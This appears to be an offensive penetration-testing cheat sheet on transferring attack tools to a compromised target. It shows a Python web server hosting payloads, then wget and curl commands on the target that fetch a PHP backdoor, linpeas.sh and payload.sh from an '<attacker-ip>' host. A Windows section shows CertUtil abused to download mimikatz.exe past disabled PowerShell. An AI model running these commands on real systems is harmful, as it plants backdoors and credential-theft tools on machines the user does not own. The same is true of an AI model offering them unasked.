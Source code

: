 ### 🧠 Example Workflow

1. Move your payloads to a directory:

   ```bash
   cd /home/user/payloads
   ```
2. Start a web server:

   ```bash
   python3 -m http.server 8080
   ```
3. On the target machine, download the file:

   * Using `wget` (Linux):

     ```bash
     wget http://<attacker-ip>:8080/php-backdoor.php
     ```
   * Using `curl`:

     ```bash
     curl -O http://<attacker-ip>:8080/linpeas.sh
     ```

---

## 🪪 File Transfer on Windows – `certutil`

Windows systems have a native utility called **CertUtil**, which can be abused to download remote files — very useful when PowerShell or external tools are disabled.

```bash
CertUtil -urlcache -f http://<attacker-ip>/mimikatz.exe mimikatz.exe
```

* `-urlcache` tells CertUtil to handle remote file URLs
* `-f` forces the download even if cached
* Saves the file locally as `mimikatz.exe`

✅ **Tip:** You can use this method to download *any* file type — scripts, binaries, or tools.

---

## 🧩 File Transfer on Linux

If you’re on a Linux target:

```bash
wget http://<attacker-ip>/php-backdoor.php
```

or

```bash
curl -O http://<attacker-ip>/payload.sh
```
